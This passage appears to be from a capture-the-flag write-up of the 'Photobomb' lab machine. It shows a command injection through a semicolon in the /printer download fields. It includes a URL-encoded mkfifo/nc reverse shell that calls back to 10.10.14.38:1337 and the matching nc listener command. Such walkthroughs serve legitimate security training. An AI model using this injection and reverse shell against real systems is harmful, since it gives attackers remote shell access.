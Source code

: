 ### Command Injection

The injection point is found in <mark style="color:yellow;">http://photobomb.htb/printer</mark> upon downloading an image and adding a semicolon within one of the fields. Immediately after the semicolon, place your URL-Encoded reverse shell here.&#x20;

{% embed url="https://www.revshells.com/" %}

Let's utilize a reverse nc mkfifo reverse shell and make sure that it is URL-Encoded.

Create Reverse Shell:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.38%201337%20%3E%2Ftmp%2Ff
```

Establish NC Listener:

```
nc -lnvp 1337
```

Append reverse shell to POST request and send to the server:

<figure><img src="../../../.gitbook/assets/image (1) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>
